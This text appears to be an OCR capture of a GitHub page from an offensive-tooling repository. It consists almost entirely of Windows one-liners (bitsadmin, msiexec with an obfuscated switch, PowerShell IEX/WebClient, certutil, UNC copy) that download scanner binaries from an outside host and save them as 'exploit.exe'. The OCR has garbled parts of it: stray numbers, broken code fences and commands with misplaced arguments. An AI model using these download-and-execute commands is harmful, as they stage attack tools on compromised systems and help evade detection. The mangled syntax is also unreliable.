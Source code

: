 ```
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_386.exe" c:\\exploit.exe
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_386.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_386.exe
```


Windows arm
``
64
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm64.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm64.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm64.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe -OutFile exploit.exe exploit.exe
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm64.exe" c:\\exploit.exe
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm64.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm64.exe

32
64
powershell.exe -Command "Invoke-WebRequest -Uri https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm.exe -OutFile exploit.exe"
powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadFile('https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm.exe -OutFile exploit.exe', exploit.exe)"
certutil.exe -urlcache -split -f https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm.exe -OutFile exploit.exe exploit.exe
copy \\github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/fscan/fscan.exe -OutFile exploit.exe exploit.exe
bitsadmin /rawreturn /transfer down "https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm.exe" c:\\exploit.exe
msiexec /q /i https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm.exe
msiexec /q /%os:~1,1%https://github.com/JiaoSuInfoSec/heixiongT00ls/releases/download/gogo/gogo_windows_arm.exe
```



